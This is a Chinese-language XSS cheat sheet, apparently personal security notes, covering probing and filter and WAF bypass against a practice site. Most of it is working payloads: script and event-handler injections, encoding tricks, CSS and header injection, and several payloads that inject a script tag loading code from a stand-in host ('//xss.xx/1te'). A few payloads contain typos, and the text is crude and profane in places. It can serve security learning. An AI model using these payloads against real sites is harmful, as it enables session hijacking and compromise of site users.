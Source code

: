 # XSS
> 详细代码请转常用代码篇，有很多代码分析和实例，此篇仅供思路。
靶场：
http://demo.testfire.net/search.jsp?query=1



## **直接x他，x他🐎的！**

首先先打个`<a>,<b>`试试看，康康到底能不能输入一个框啊什么的，试试水对吧。在确定了可以在页面加入一个`<b>`或者一个`<a>`然后尝试后者：


就直接尝试xss语句，虽然90%不行，但是万一呢？对吧！

```
<script>alert('xss');</script>
```



## **如果有过滤**

输入：
```
< > ' " = ; 
```
字符查看一下，那些被过滤了，那些被转义了，那些被删除了。


## 首先 构造一个payload

首先一个`xss payload`基本有以下几部分组成

[TAG]填充标签img svg video button...
[ATTR]=Something 填充一些非必要的属性 src=1 xmlns="jp.pornhub.com/"(a君：`兄弟借一步说话`GKDGKD)

[EVENT]填充事件属性onerror onload...
[PAYLOAD]填充JavaScript代码alert(1) top.alert(1)...

大体可以理解为：
```html
<[TAG]    [ATTR]=  sth    [EVENT]   =   [PAYLOAD] />
 标签头    属性     事件   事件属性        代码
```



## **大小写混写，双写绕过**

当一些敏感标签，如`script,img`中间被截断或者删除，可以尝试大小写混写，或者双写绕过:
```
<sCrIpT><>
<Imimgg><>
```




## **尝试闭合标签**

输入没什么过滤，但是无法直接弹窗可以尝试闭合标签然后使xss生效
比如：
```
"> <script>alert(1);</script>
```

## **如何绕过**

### **16进制编码绕过**

将XSS语句经过16进制编码转换来绕过XSS的规则。

列:
```
<script>alert(1)</script>
```
可以转换为
```
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e
```

## **绕过PHP自带的安全设置**

在php中设置为`magic_quotes_gpc=ON`中安全设置开启，开启后会吧一些特殊字符进行转换，比如：`把'(单引号)转化为：`\`,双引号`"`转换为：``\"``

> 我们可以通过javascript中的`String.fromCharCode`方法来绕过

可以输入为：
```
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88,83, 83, 34, 41, 59)</script>
```





## **利用html标签属性值执行XSS**

很多HTML标记中的属性都支持JavaScript脚本，所以我反手给你个xss你怎么说？上号：
```
<img src = "http://58.221.227.52:82/functions/images/qysb/logo.png">
```
其中只要执行了js代码就可以弹窗，如果引用文件都可以绕过`<>`





## **使用空格，TAB，回车，js编码绕过**

如果过滤时对`JavaScript`进行了过滤，得益于JS代码的**优秀体制**(**该用谁心理有B数了8**)只需要对js做小小的操作即可绕过：
```
<img src= "java　　script:alert(‘xss‘);" width=100>
```
或者：
```
<img src= "javascript:  alert(/xss/);" width=100>
```

或者：
```
<a herf="javascr&#69pt:alert(1)">



```

## **利用CSS跨站解析**

大概就是去在文章引入的CSS中加入一串XSS代码，应为CSS不用嵌入到html中，可以直接从文件或其他地方进行引用。
`但是 浏览器之间不能通用`
```
<div style = "list-style-image:url(javascript:alert(‘xSS‘))">

<link rel = "stylesheet" href ="http://www.xxx.com/atack.css">

<style type=‘text/css‘>@import url(http://www.xxx.com/xss.css);</style>

<style>@import ‘javascript:alert(‘xss‘);‘</style>
```





## **利用字符编码**

利用16进制转换，或者ASCII表转换来进行xss
```
<script>eval("\61\6c\65......");<script>
```






## **尝试在请求包中输入值查看是否被带入数值**

在请求值中尝试加入referer值

```
Referer: aaaa" type="text" onclick="alert(1)"
```
尝试在User-Agent等值中输入值查看是否能够带入数值

```
user=" type="text" onclick="alert(1)"
```

## **构造payload(采用%0a绕过空格过滤)**

如果过滤了`script、/、与空格`
在url中直接加入`%0a`绕过空格过滤，解析出来不一样吗，火狐他不香吗？
```
http://127.0.0.1/xss/level16.php?keyword=<img%0asrc=1%0aonerror=alert(1)>
```












## **如果过滤了双引号和尖括号**

html`实体编码`来过滤尖括号和双引号也是属于编码绕过的一种，测试只有火狐可以实现(A君：谷歌你🐎死了)
```
http://IP/xss/level17.php?arg01=a&arg02=b onmouseover=alert(1)

```

当在url输入被过滤等因素后，可以尝试在输入框中加入`js代码`并使用js实体绕过:















**js实体编码**

javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制









## [**绕WAF**](https://xz.aliyun.com/t/6652)

当你兴致*勃勃* 输入了第一串代码`<b>`,欸？我日你妈 D盾，创宇盾拦截，百度云盾拦截。小逼崽子**D盾**三天之内祝你**心想事成！** 

> D盾还好，只是拦截，你还可以FUZZ,创宇盾直接给你ip封了，md我搞你还要准备几十个ip？

不常见标签

XSSfuzz生成器:https://github.com/NytroRST/XSSFuzzer/blob/master/fuzzer.html

```html
<details> <button> <select> <keygen> <textarea>等等
```

从网上收集的几个payload:
```html

<details open ontoggle=prompt(1)>
      <details open ontoggle=prompt(1)>
      <button onfocus=prompt(1) autofocus>
      <select autofocus onfocus=prompt(1)>

 <input autofocus onfocus=s=createElement("scriPt");body . appendChild(s);s.src="//xss.xx/1te">

 <keygen autofocus onfocus =s=createElement("scriPt" );body . appendchild(s);s. src="//xss.xx/1te">

<textarea autofocus onfocus=s=createElement("scriPt"); bady appendChild(s);s.src="//xss.xx/1te">

<video onkeyup=setTimeout`al\x65rt\x28/2/\x29```>

<svg src=1 onload=alert(1) />
<svg value=1 onload=alert(1) />
<video value=1 onerror=alert(1) />

```



绕 alert

```html
top[11189117..toString(32)](1);
</sCrIpT><svg  onwheel=top[11189117..toString(32)](1);>
```

¼script¾alert(¢XSS¢)¼/script¾
¼b¾1
